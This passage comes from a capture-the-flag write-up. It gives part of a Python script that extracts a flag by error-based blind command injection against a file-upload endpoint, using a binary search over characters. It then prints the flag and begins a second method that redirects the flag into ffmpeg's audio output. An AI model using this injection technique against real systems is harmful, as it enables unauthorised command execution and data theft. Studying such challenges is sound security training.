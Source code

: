 ```python
        )
    }
    r = requests.post(
        VICTIM_URL + UPLOAD_ENDPOINT, 
        files = files
    )
    result = 'error' not in r.text
    return result

def search_character(char_index):
    print('[SEARCH] beginning search for character at index', char_index)    
    upper = MAX_CHAR_CODE
    lower = MIN_CHAR_CODE
    while (lower <= upper):
        middle = int((lower + upper) / 2)
        if (send_cmd(greater_query_cmd(char_index, middle))):
            print('[SEARCH] character is greater than', middle)
            lower = middle + 1
        elif (send_cmd(lesser_query_cmd(char_index, middle))):
            print('[SEARCH] character is less than', middle)
            upper = middle - 1
        else:
            return chr(middle)
    return None

def main():
    final_string = ''
    char_index = 0

    while (char_index < FLAG_LENGTH):
        final_string += search_character(char_index)
        print('CURRENTLY KNOWN TEXT:', final_string)
        char_index += 1

if __name__ == '__main__':
    main()
```

Running this for around 10 minutes, we obtain the flag. (I could have parallelized it to go faster but why bother? :) )

![](https://i.imgur.com/XyBFvls.png)

The flag is `INITGRITI{c0mm4nd_1nj3c710n_4nd_0p3n55l_5h3ll}`.

## SOLUTION 2: Using FFMPEG to Write to `extracted_audio.wav` 
Sure, error-based command injection is cool. But isn't there some more elegant way of doing this challenge, without making so many requests? Isn't there some output that we have access to?

Well, what about `extracted_audio.wav`? Typically, the `ffmpeg` command would generate it and then it would be sent to the user. What if we `cat` our flag but redirect it into `extracted_audio.wav`? 

